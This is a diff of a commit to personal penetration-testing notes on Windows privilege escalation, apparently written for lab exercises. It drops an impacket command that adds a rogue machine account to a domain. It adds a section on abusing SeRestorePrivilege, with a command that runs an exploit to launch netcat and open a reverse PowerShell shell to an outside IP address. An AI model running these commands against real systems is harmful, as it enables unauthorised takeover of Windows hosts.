

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/windows-privilege-escalation/escalating-privilege.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
GITBOOK-276: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
+++ b/ethical-hacking/windows-privilege-escalation/escalating-privilege.md
@@ -152,7 +152,9 @@ PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell I
 
 
 
-## Insecure Privileges
+## Insecure Privileges - Abusing Tokens
+
+{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens" %}
 
 The first thing to do when popping a Windows shell is to check the user privileges.
 
@@ -205,21 +207,12 @@ PS> systeminfo
 
 
 
-### SeMachineAccountPrivilege
+### SeRestorePrivilege
 
-This privilege allows us to create a machine account on the domain ($). We can use this machine account to impersonate another user and request a ticket-granting-ticket (Administrator).
+Run [EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1) and you will have access to C:\Windows\System32. If that doesn't work, sometimes it doesn't we can use [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse) exploit. We can build it in our devbox.
 
-
-
-#### create new computer account - impacket
-
-```shell-session
-impacket-addcomputer heist.offsec/enox -dc-ip 192.168.191.165 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
-Impacket v0.11.0 - Copyright 2023 Fortra
-
-Password:
-[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
-
+```powershell
+.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.49.194 445 -e powershell.exe"
 ```
 
 ####
````
